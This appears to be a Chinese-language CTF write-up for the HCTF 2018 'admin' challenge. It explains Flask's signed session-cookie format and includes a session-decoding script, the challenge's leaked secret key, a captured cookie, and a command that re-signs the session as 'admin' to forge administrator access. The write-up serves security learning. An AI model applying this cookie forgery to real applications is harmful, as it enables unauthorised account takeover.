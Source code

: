 用户第一次请求后，将产生的`状态信息保存在session`中，这时可以把session当做一个容器，它保存了正在使用的所有用户的状态信息；这段状态信息分配了一个唯一的标识符用来标识用户的身份，将其保存在响应对象的cookie中；当第二次请求时，解析cookie中的标识符，拿到标识符后去session找到对应的用户的信息

## flask存储session：

1、直接存在客户端的cookie中

2、存储在服务端，如：`redis,memcached,mysql,file,mongodb`等等，存在flask-session第三方库

## flask中session格式：

flask的session格式一般是由`base64加密`的Session数据(经过了json、zlib压缩处理的字符串) . 时间戳 . 签名组成的。

eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Y48ncA.H99Th2w4FzzphEX8qAeiSPuUF_0
session数据 时间戳 签名

时间戳：用来告诉服务端数据最后一次更新的时间，超过31天的会话，将会过期，变为无效会话；

签名：是利用Hmac算法，**将session数据和时间戳加上secret_key加密而成的，用来保证数据没有被修改**。

**要进行flask的session伪造，首先要得到secret_key**

## 题目：[HCTF 2018]admin

在修改密码页面的源代码中发现：https://github.com/woadsl1234/hctf_flask/

在config.py中发现秘钥：`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

对我们自己注册的账户的抓包，得到

```http
Cookie: session=.eJw9kMFuwjAMhl9l8plDm247IHHoFKiYZEdF6arkggotLWkCUwFBg3j3RUxCPlj-f_uz7Dusd0Nz6mB6Hi7NBNb7GqZ3eNvAFFCmsSgXVnDqyeWRMm0kyp8e2XLUpkhQtiNxFWtTO-W_rZDFTctV6NUdcoy0QS-y_EquSJTTVvOUoa97MssYzTxCk97QFDH6YiS5HcNMoozyogy7WNBY_k6-7ijDj1Az5GQxm9-UmcfkrUOGI5XLRMvtDB4T2J6G3fp87JvD6wQqtUWpmJZpghl1Wn51ylAIG3JtyeeM_GIfEJ54nhBf9SKfPXF7V7XNi6Sz389V--8cKhcMGKvjtTnUFUzgcmqG5-sgjuDxB2DGbgs.aMqAdQ.hR4TUzXHPNb-Gqbb6nrlGoR2LwI
```

解密脚本：

```py
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode
 
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)
 
    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True
 
    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')
 
    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')
 
    return session_json_serializer.loads(payload)
 
if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))   
```

![image-20250917174258325](assets/image-20250917174258325.png)

在代码中可以看到

![image-20250917174420922](assets/image-20250917174420922.png)

也就是说需要把yaowenda换成admin

```
{'_fresh': True, '_id': b'1059ae83d6d4b849ed3b2f57182465f7fc2e951e4d6fa034f338d06e7bfed0637d625214201255352572037b639d4ce27d877a4c9ce603e0a1b1579f3c25b7e7', 'csrf_token': b'5fe166e070cae0ab3c69ab7e74671be7344744d9', 'image': b'djzF', 'name': 'admin', 'user_id': '10'}
```

然后执行命令：

```py
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': '1059ae83d6d4b849ed3b2f57182465f7fc2e951e4d6fa034f338d06e7bfed0637d625214201255352572037b639d4ce27d877a4c9ce603e0a1b1579f3c25b7e7', 'csrf_token': '5fe166e070cae0ab3c69ab7e74671be7344744d9', 'image': 'djzF', 'name': 'admin', 'user_id': '10'}" 
```

不能用python3 而是用python，因为在我电脑上`python` 与 `python3` 指向不同的解释器

